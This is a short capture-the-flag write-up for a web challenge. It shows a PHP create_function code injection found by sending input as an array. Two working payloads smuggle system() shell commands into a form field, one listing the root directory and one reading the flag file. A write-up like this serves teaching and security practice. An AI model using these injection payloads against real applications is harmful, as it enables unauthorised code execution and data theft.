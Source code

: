 # Challenge description

Ever since Claw's last encounter with the Inspector, he has been feeling very vindictive and angry. He hasn't even fed M.A.D. Cat correctly!

Thankfully, M.A.D. Cat knows their treats are stored in the nibbles directory!

Author: AtomicNicos
-----------------------------------------------------------

This challenge provides this page where we can only enter `echo "Hello World!";`

and anything else won't work

![image](https://user-images.githubusercontent.com/58823465/166170325-fb25173a-891f-4ef0-9770-7fdca2785a9f.png)

So trying different ways to break this i tried sending the code as an array, and bingo ! we get an interesting error 

![image](https://user-images.githubusercontent.com/58823465/166170340-16a43208-58d7-4a2d-b3df-31cc6915acde.png)

This means the "create_function" was used and this function can be exploited if the payload isn't sanitized, so we can inject arbitrary code and maybe get RCE !

More info about "create_function" code injection: 

```
https://www.exploit-db.com/exploits/32417

https://www.codetd.com/en/article/7175910

```

So using this payload we can get RCE 

``` code=1;}system(%27ls%20/%27);/* ``` 

![image](https://user-images.githubusercontent.com/58823465/166170373-0d777a68-fe58-4e97-bd07-55605fd3d9ae.png)


Next we just need to find the flag in the nibbles directory

```code=1;}system(%27cat%20./nibbles/flag.txt%27);/*```

``` Flag : DOCTF{G3TT1NG_RC3_(S0RRY_..._N1BBL3S)_1$_4LW4Y$_GR34T}  ```
